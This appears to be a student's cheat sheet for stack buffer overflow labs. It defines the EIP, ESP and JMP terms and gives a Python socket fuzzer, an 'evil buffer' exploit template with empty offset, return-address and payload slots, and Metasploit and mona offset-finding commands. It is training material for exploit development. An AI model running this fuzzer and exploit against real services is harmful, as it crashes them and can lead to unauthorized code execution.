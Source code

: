 EIP =>The Extended Instruction Pointer (EIP) is a register that contains the address of the next instruction for the program or command.\

ESP=>The Extended Stack Pointer (ESP) is a register that lets you know where on the stack you are and allows you to push data in and out of the application.\

JMP =>The Jump (JMP) is an instruction that modifies the flow of execution where the operand you designate will contain the address being jumped to.\

\x41, \x42, \x43 =>The hexadecimal values for A, B and C. For this exercise, there is no benefit to using hex vs ascii, it’s just my personal preference.\



use Immunity Debugger

fuzzer
`#!/usr/bin/env python3
import socket, time, sys
ip = "<IP>"
port = 1337
timeout = 5
prefix = "OVERFLOW1 "
string = prefix + "A" * 100
while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)`

exploit

`import socket
ip = "<IP>"
port = <PORT>
prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""
buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
`


On kali 
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <LENGHT>`

In mona 
`!mona findmsp -distance <LENGHT>?`

